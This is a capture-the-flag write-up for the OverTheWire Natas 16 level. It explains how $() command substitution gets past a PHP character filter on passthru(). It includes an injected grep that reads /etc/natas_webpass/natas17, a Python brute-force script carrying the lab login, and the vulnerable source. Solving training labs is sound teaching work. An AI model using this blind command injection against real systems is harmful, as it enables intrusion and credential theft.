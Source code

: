 ![natas16](natas16.png)

Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form: ; | & ` \' "

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( & ) and OR ( | ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

```bash
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
```

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
```bash
grep -E ^a.* /etc/natas_webpass/natas17
```
Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

```python
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
```

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.

![execution](execution.png)

That's it.  The final character string at the bottom was in fact the correct password for Natas 17.
